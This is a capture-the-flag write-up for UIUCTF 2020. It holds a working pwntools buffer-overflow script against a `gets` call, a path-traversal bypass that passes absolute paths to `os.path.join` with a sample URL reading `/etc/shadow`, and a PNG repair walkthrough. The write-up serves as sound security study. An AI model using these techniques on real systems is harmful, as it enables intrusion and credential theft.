

# UIUCTF 2020

## [Warmup] Spoockies


- We can decompile this program using [Ghidra](https://ghidra-sre.org/)

  - The main function calls `vulnerable()`

  

  - `vulnerable` gets a user input and simply assigns 2 variables, and checks if one of them changed and the other stayed the same

    

  - The `gets` doesn't check the size of the input, so we can attack the program with a buffer overflow

    - First we draw the stack

    

    - Then we overflow it using [pwntools](https://github.com/Gallopsled/pwntools)

      ```python
      from pwn import *
      
      LOCAL = "remote" not in sys.argv
      
      elf = ELF("./pwn-warmup")
      context.update(binary=elf)
      
      if LOCAL:
      	r = process(elf.path)
      else:
      	r = remote("chal.uiuc.tf", 2003)
      
      # We start by filling the uffer with 16 chars, then we pass the value to the variable that must not change, and finally we change the variable that must be changed
      payload = b"A"*16 + p32(0x12345678) + b'C'*4
      log.info("Payload : " + str(payload))
      r.sendlineafter(b'hmm...', payload)
      
      r.interactive()
      r.close()
      ```

      

- Flag: uiuctf{stupid_flag_i_just_fell_out_of_the_bag}

## [Web] security_question


```python
@app.route('/getpoem')
def get_poem():
    poemname = request.args.get('name')

    if not poemname:
        return 'Please send a name query:\n' + str(os.listdir('poems')), 404

    poemdir     = os.path.join(os.getcwd(), 'poems')
    poempath    = os.path.join(poemdir, poemname) 

    if '..' in poemname:
        return 'Illegal substring detected.', 403
    
    if not os.path.exists(poempath):
        return 'File not found.', 404

    return send_file(poempath)
```

- Looking at the code, we can see that :

  - The URL https://security.chal.uiuc.tf/getpoem gives us a list of available poems
  - We can display one of these poems with https://security.chal.uiuc.tf/getpoem?name=tyger.txt
  - And using `..` gives a 403
  - ... but we can pass arguments directly to `os.path.join()` using the `name` parameter

- Looking at its [documentation](https://docs.python.org/3/library/os.path.html)

  

  - We can pass `/hidden_poem.txt` to `name` so that `poemdir` is thrown out of the `poempath` variable
    - https://security.chal.uiuc.tf/getpoem?name=/hidden_poem.txt
  - We could also get any other file given we know its absolute path (https://security.chal.uiuc.tf/getpoem?name=/etc/shadow for example)

- Flag: uiuctf{str_join_is_weird_in_python_3}

## [Forensics] Raymonds Recovery



- As stated in the challenge description, the data is an ext4 filesystem

- We can mount it to check its content

  

- Some of the files are corrupted, but we are looking for a PNG. We can use [PCRT](https://github.com/sherlly/PCRT) to check and repair them

  

  - PCRT seems quite unwilling to repair this file (è.é) so we can just fix the header by hand using any hex editor

    

  - We can then open the repaired file

    

- Flag: uiuctf{everyb0dy_l0ves_raym0nd}

